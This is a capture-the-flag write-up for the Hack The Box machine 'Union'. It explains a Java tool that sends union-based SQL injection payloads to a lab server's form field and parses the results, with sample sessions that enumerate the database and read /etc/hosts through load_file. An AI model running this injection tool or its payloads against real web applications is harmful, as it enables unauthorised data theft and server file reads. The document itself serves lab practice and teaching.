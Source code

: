 # Hack The Box. Machines. Union

Machine write-up: https://7rocky.netlify.app/en/htb/union

### `UnionSQLi.java`

This Java code is used to provide an interactive way to enter SQL queries in a form field vulnerable to Union-based SQL injection. The output will be only the result of the query if it is correct.

An example of use might be the following (`rlwrap` is a command to have a command history, to be able to move right and left, and clear the screen with `^L`):

```console
$ rlwrap java UnionSQLi.java
SQLi> select database()
november
SQLi> select version()
8.0.27-0ubuntu0.20.04.1
SQLi> select user()
uhc@localhost
SQLi> select group_concat(table_name) from information_schema.tables where table_schema = 'november'
flag,players
SQLi> select load_file('/etc/hosts')
127.0.0.1 localhost
127.0.1.1 union

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

To build the Java code, first I define some constant variables at the top:

```java
private static final String POST_URL = "http://10.10.11.128/index.php";
private static final String POST_DATA = "player=' union %s -- -";
private static final Pattern PATTERN = Pattern.compile("Sorry, ([\\s\\S]*?) you are not eligible due to already qualifying.");
```

The first one is the vulnerable URL, the second one is the payload with a `%s` to enter the SQL query using `String.format` and then the pattern to extract the result of the query using a Regular Expression.

The `main` function is the following:

```java
public static void main(String[] args) {
  try (Scanner in = new Scanner(System.in)) {
    while (true) {
      System.out.print("SQLi> ");
      String sqli = in.nextLine();

      if (sqli.equals("exit")) {
        break;
      } else if (sqli.isEmpty()) {
        continue;
      }

      String response = sendPOST(sqli);

      if (response.startsWith("Sorry")) {
        System.out.println(filterResult(response));
      } else {
        System.out.println("ERROR");
      }
    }
  } catch (IOException e) {
    System.out.println("ERROR");
  }
}
```

Basically, what it does is use an infinite loop to provide the `SQLi> ` prompt and read the SQL query from standart input (`stdin`). The SQL query is sent to the `sendPOST` method and the resulting response is filtered using `filterResult` if it is correct (otherwise it will print `ERROR`).

The `sendPOST` method is the following:

```java
  private static String sendPOST(String sqli) throws IOException {
    URL url = new URL(POST_URL);
    HttpURLConnection httpURLConnection = (HttpURLConnection) url.openConnection();
    httpURLConnection.setRequestMethod("POST");
    httpURLConnection.setDoOutput(true);

    OutputStream outputStream = httpURLConnection.getOutputStream();
    outputStream.write(String.format(POST_DATA, sqli).getBytes());
    outputStream.flush();
    outputStream.close();

    if (httpURLConnection.getResponseCode() == HttpURLConnection.HTTP_OK) {
      try (BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(httpURLConnection.getInputStream()))) {
        return bufferedReader.lines().map(line -> line + "\n").reduce(String::concat).orElse("");
      } catch (IOException e) {
        System.out.println("ERROR");
      }
    }

    return "";
  }
```

Although it is a little verbose, the function is very simple, it just takes the SQL query and puts it into the `POST_DATA` using `String.format` (here is the use of `%s`).

If the response is successful (200 OK), then we read the response and put it in a `String format` using some Java functional programming:

```java
bufferedReader.lines()
  .map(line -> line + "\n")
  .reduce(String::concat)
  .orElse("");
```

This sentence takes each line of the result, adds a new line character (`\n`) to each one and concatenates all of them.

The use of `.orElse("")` is because `.reduce(String::concat)` returns an `Optional<String>` type, that cannot be used as a simple `String`. This way, if some exception occurs, the returning string will be empty (`""`).

Finally, the `filterResult` method only extracts the desired data using the `PATTERN` defined above:

```java
private static String filterResult(String response) {
  Matcher matcher = PATTERN.matcher(response);
  matcher.find();
  return matcher.group(1);
}
```

The `PATTERN` makes use of `([\s\S]*?)` to match any "space" character (for instance: spaces, tabs, or new lines) with `\s` or any "non-space" character with `\S` multiple times (`*`).

The use of `?` is to match the minimum until finding the following content of the pattern (namely, ` you are not eligible due to already qualifying.`).

**Note:** The previous code snippets are shown only as an explanation, the complete source code is a bit different due to the `import` statements.
